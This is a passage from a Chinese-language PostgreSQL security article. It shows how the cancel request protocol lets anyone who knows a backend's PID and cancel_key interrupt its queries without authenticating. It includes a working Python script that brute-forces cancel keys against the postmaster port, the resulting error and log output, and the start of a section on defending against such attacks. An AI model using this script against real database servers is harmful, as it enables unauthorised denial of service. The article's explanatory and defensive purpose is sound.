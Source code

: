 然后编写一个脚本，目的是通过TCP发Cancel报文给postmaster进程，让postmaster去处理cancel请求。    
    
Cancel报文里面需要告诉postmaster两个值，PID和PID对应的cancel_key。    
  
```  
[root@digoal ~]# vi cancel.py   
#!/usr/bin/python  
import struct  
import socket  
import sys  
  
def pg_cancel_query(pid, cancel_key):  
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
    s.connect(("127.0.0.1",1921))  
    buffer = struct.pack('IIII', socket.htonl(16), socket.htonl((1234<<16)|(5678)),\  
            socket.htonl(int(pid)), socket.htonl(int(cancel_key)))  
    s.send(buffer)  
    # log.info("cancel query %s: return %s" % (query, s.recv(1024)))  
    s.close()   
  
for i in xrange(1,2147483647):  
  pg_cancel_query(int(sys.argv[1]),i)  
```  
    
执行以上脚本   
    
```  
[root@digoal ~]# ./cancel.py 61758  
```  
    
一段时间后，你的这个LONG SQL语句可能会被Cancel掉，报如下错误。    
    
```  
ERROR:  canceling statement due to user request  
```  
    
而在你的日志中可能会有大量的这样的报错，如下    
    
```  
2015-09-29 14:22:41.767 CST,,,61756,"127.0.0.1:28378",560a2e31.cc83,2,"",2015-09-29 14:22:41 CST,,0,LOG,00000,  
"wrong key in cancel request for process 61758",,,,,,,,"processCancelRequest, postmaster.c:2126",""  
```  
    
也就是说，外界在没有密码，同时pg_hba.conf也不允许连接的情况下，还是可以把你的SQL Cancel掉。只要他提供了正确的PID和这个PID对应的cancel_key。    
    
原因是什么？  
  
PostgreSQL为每个backend pid存储了一个cancel_key，这个KEY是一个随机long值。    
  
在PG的通信协议中，有一种Cancel报文，发送这个报文给postmaster时，客户端不需要经过数据库认证的过程，Postmaster进程收到这样的报文，会触发processCancelRequest处理。只要报文提交的PID和对应的cancel key正确，则会给对应PID发送Cancel信号，导致QUERY被中断。      
  
## 6 如何防范数据库DOS以及Cancel攻击  
随意的把数据库端口暴露在不可信环境中，存在很多潜在风险：  
  
1、破解数据库账号密码  
  